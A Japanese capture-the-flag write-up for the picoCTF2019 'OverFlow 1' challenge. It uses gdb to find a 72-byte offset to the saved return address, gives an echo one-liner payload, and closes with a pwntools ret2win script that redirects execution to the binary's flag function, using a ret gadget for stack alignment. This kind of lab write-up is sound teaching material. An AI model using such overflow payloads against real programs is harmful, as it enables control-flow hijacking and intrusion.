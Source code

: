# OverFlow 1
## picoCTF2019
## Binary Exploition
***

与えらえたソースコードを読む。  
基本的にはリターンアドレスを書き換えるだけの問題っぽいので、今まで通りBOFを起こしにかかる。ただし、なぜか今回pattcとpattoが使えなかったため、計算してオフセットを求める。  
基本的には、リターンアドレスが格納されるアドレスと、入力した値が格納されるアドレスが分かれば、その差分からオフセットが分かる。  
まずリターンアドレスを求める。今回、mainからvuln()が呼ばれる時にmainのアドレスがどこに積まれるかを調べる。gdbで実行し、vulnが呼ばれるまでnextし続ける。
> gdb ./vuln
> break main
> run
> next

すると、call 0x4007cc <vuln>という行に来る。ここで次にvuln関数の中に入りたいため、ステップイン実行を行う。
> step

この時、スタックのトップにmain関数のリターンアドレスが格納されているため、ここのスタックトップのアドレスを控えておく。
> 0xff....ddb8

次に入力した値がどこに格納されるのか調べるため、続けてnextし、入力待ち画面まで行く。
> next

入力待ち画面でとりあえずAAAAと打って、スタックのどこに保存されるか見てみると、0xff...dd70に保存されていた。  
ここからオフセットを求めると、0xff....ddb8 - 0xff....dd70となる。ddb8-dd70=48 10進数に直すと72となる。よってオフセットは72であることがわかる。  
ためしにgdbでもう一度入力画面まで進み、72文字の適当な文字列+BBBBとかを入力すると、RIPがBBBBとなり、RIPを奪うことに成功していることがわかる。  

次にflag関数のアドレスを調べる。
> p flag

ここからflag関数が0x400767にあることが分かる。  
ここまででflag関数のアドレスとオフセットが分かったため、攻撃可能になるため、一旦攻撃してみる。
> echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x67\x07\x40' | ./vuln

とするとflag関数が呼び出され、flagが呼び出されるはずだが、結果はSegmentation fault (core dumped)となる。  
これはx64の制約で、16byteで揃えていないと不正アクセスとみなされプログラムが終了してしまうためprintf関数でプログラムが終了したことによって起こっている。これを起こさないためには、flag関数の一番始めのpush命令を飛ばす(flag関数の2行目のアドレスをジャンプ先に指定する。)か、flag関数のリターンアドレスを使う方法がある。今回はリターンアドレスを使う。  

そのため、flag関数のリターンアドレスを調べるため、flag関数をディスアセンブリする。  
> disas flag

一番最後のret命令の部分のアドレスが0x4007cbになっている。これがリターンアドレスとなる。  

以上の条件から、攻撃コードは
> 72文字の文字列 + リターンアドレス + flag関数のアドレス

となる。これを元に攻撃コードを作成する。  

```
from pwn import *
context(arch="i386", os="linux")
p=process("./vuln")
e=ELF("./vuln")
flag_add=e.symbols[b'flag']
ret_add=0x4007cb
offset = 72
payload='a'*offset + p64(ret_add) + p64(flag_add)
p.sendline(payload)
p.interactive()
```

これを実行すると、flag.txtが読まれ、flagが表示される。